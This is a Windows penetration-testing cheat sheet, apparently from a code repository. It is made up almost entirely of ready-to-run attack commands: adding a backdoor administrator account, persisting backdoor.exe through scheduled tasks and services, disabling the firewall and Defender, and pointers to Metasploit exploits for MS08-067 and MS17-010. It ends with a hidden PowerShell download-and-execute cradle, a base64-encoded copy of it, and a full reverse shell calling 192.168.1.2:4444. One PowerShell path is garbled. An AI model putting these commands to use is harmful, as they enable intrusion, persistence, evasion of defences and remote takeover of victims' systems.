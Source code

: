 === Windows

==== Version Numbers

[cols="1,3"]
|===
|NT 5.0  |2000
|NT 5.1  |XP 32bit
|NT 5.2  |XP 64bit, Server 2003, Server 2003 R2
|NT 6.0  |Vista, Server 2008
|NT 6.1  |7, Server 2008 R2
|NT 6.2  |8, Server 2012
|NT 6.3  |8.1, Server 2012 R2
|NT 10.0 |10, Server 2016, Server 2019
|===

==== User Management

  net user brimstone password /add

Add user with the username `brimstone` and password `password`.

  net localgroup administrators brimstone /add

Add `brimstone` to the local administrators group.

==== Scheduled Tasks

  schtasks /create /tn task name /ru system /sc onlogon /tr backdoor.exe

Run task on user logon.

  schtasks /create /tn task name /ru system /sc onstart /tr backdoor.exe

Run task on system start.

  schtasks /create /tn task name /sc onidle /i 30 /tr backdoor.exe

Run task on user idle for 30 minutes.

<<<

==== Service Management

  sc query state=all

Show services.

  sc create backdoor binPath= "c:\backdoor.exe"

Create new service with `backdoor.exe`. Must include quotes.


==== Firewall

  netsh firewall set opmode mode=DISABLE

Disable on XP/2003

  netsh advfirewall set  currentprofile state off

Disable on 7 and later

  netsh advfirewall firewall add rule name="Allow Port 4444" protocol=TCP dir=out remoteport=4444 action=allow

Allow a port.

  netsh advfirewall firewall add rule name="IP Allow" dir=in interface=any action=allow remoteip=192.168.1.2/32

Allow a host.

  netsh advfirewall firewall add rule name="Program Allow" program="c:\backdoor.exe" protocol=tcp dir=in enable=yes action=allow

Allow a program.

<<<

==== Defender

  Set-MpPreference -DisableRealTimeMonitoring $true

Disable completely. Yields a ballon notification to logged on users.

  Add-MpPreference -ExclusionPath "C:\Temp"

Add excluded direectory.

  use post/windows/gather/enum_av_excluded

List off excluded directories from meterpreter session.

==== Exploits
===== MS08-067

[cols=">1,3"]
|===
|Affects           |XP, 2003
|Metasploit Module |exploit/windows/smb/ms08_067_netapi
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

===== MS16-075

[cols=">1,3"]
|===
|Affects           |Windows 7 on?
|Metasploit Module |exploit/windows/local/ms16_075_reflection_juicy
|Type              |local, privilege escalation
|===

Detection: Run `whoami /getprivs` and look for `SeImpersonate` or `SeAssignPrimaryToken`

===== MS17-010

[cols=">1,3"]
|===
|Affects           |Pretty much everything. XP through Windows 10
|Metasploit Module |exploit/windows/smb/ms17_010_psexec
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

<<<

==== Powershell

  C:\Windows\sjswow64\WindowsPowerShell\vl.O\powershell.exe

Location of 64bit ppowershell

  powershell.exe -w hidden -noni -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.2/script.ps1');"

Download a powershell script to memory and run it.

  powershell.exe -w hidden -noni -nop -enc SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly8xOTIuMTY4LjEuMi9zY3JpcHQucHMxJyk7Cg==

Same as above, but doesn't use either quote type.

  $client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();

Reverse shell

<<<
